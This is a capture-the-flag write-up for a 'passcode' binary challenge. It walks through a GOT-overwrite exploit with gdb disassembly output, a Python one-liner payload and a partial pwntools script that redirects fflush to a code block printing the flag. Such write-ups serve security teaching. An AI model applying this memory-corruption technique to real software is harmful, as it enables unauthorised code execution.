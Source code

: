 ## Exploitation

* From the disassembly we can see that the interesting instruction is right before the call to ```system```, when the ```"/bin/cat flag"``` buffer is pushed on the stack, which is at ```0x080485e3```

* We can use ```gdb``` to find the ```fflush``` GOT address :
```text
(gdb) disassemble fflush
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:     jmp    DWORD PTR ds:0x804a004
   0x08048436 <+6>:     push   0x8
   0x0804843b <+11>:    jmp    0x8048410
End of assembler dump.
(gdb)
```
* During the first ```fflush``` call, the PLT resolution will jump at the address at ```0x804a004```, this is our target address to write the instruction where we want to go next

* We need to set the last four bytes of ```name``` to ```0x804a004``` (Little Endian ```\x04\xa0\x04\x08```) to trick the first ```scanf``` into writing ```0x080485e3``` (decimal ```134514147```) and then the ```fflush``` call will jump into the target piece of code

* This can be accomplished with python on the command line : ```python -c "print 'A'*96 + '\x04\xa0\x04\x08' + '\n' + '134514147' + '\n'" | ./passcode```

* ```PWN```

## Exploitation script

```python
#!/usr/bin/env python
from pwn import *
```

* Use [pwntools](https://github.com/Gallopsled/pwntools) for automatic exploitation

```python
exe = ELF('./passcode')

fflush_got = exe.got.fflush

target_block = 0x080485e3
```

* Read the ```fflush``` GOT address from the ELF file and set the ```target_block``` to the one extracted from ```gdb```

```python
payload = fit({96: p32(fflush_got)})
payload += '\n'
payload += str(target_block)
```

* Set the payload to random bytes with the packed value of ```fflush_got``` at the 4 last bytes of ```name```, then after a line feed the decimal value of ```target_block```

